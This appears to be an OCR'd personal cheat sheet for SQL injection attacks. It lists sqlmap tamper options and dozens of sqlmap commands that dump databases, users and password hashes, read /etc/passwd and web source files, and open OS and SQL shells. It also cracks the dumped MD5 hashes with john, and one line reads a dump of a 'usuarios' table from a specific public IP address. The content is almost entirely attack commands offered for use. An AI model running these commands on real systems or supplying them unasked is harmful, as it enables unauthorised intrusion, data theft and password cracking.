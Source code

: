 tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes




## Examples sqlmap

    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hostname --tables --columns

    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --dump --threads 10 --hex


    sqlmap -r req.txt --level=5 --risk=3 --dbs
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --is-dba
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hosntame
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --is-dba --users --passwords --current-db --current-user --hex --hostname --tables --columns
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --os-shell
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --sql-shell --threads 10
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --sql-shell --threads 10 --hex
    sqlmap -r req.txt --level=5 --risk=3 --dbms mysql --os=linux --users --threads 10 --hex -U 'app' --roles
     cat /root/.sqlmap/output/173.255.254.202/dump/cadastro/usuarios.csv | cut -d, -f 4
     vi hashes
    john --format=raw-md5 -w /root/ownCloud/owncloud/Tools_Utilities/hacking-tools/fuzzdb/wordlists-user-passwd/unix-os/unix_passwords.txt hashes
    7z e /root/ownCloud/owncloud/Tools_Utilities/hacking-tools/fuzzdb/my_wordlists/hashkiller-dict-2019-09-11.7z
        
    john --format=raw-md5 -w hashkiller-dict.txt hashes
    sqlmap -r req.txt --file_read=/xampp/htdocs/index.php --batch
    sqlmap -r req.txt --file-read=/etc/passwd --batch
    hash-identifier 6565223a5aa70f89d5f057e961eb1908
 
    sqlmap -r req.txt --users --privilege
    sqlmap -r req.txt -D cadastro --dump
    sqlmap -r req.txt --sql-shell
    sqlmap -r req.txt  --hex --proxy=http://192.168.1.254:8080
 
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables --T usuarios
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -v --dump
    sqlmap -r req.txt  --dbms=mysql --os=linux --users --passwords
    sqlmap -r req.txt  --dbms=mysql --os=linux --users --passwords --proxy=http://127.0.0.1:8080
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --comments --priv-esc
    sqlmap -d "mysql://root:@173.255.254.202:3306/users" -f --banner
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --current-db --ROLES
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --current-db --roles
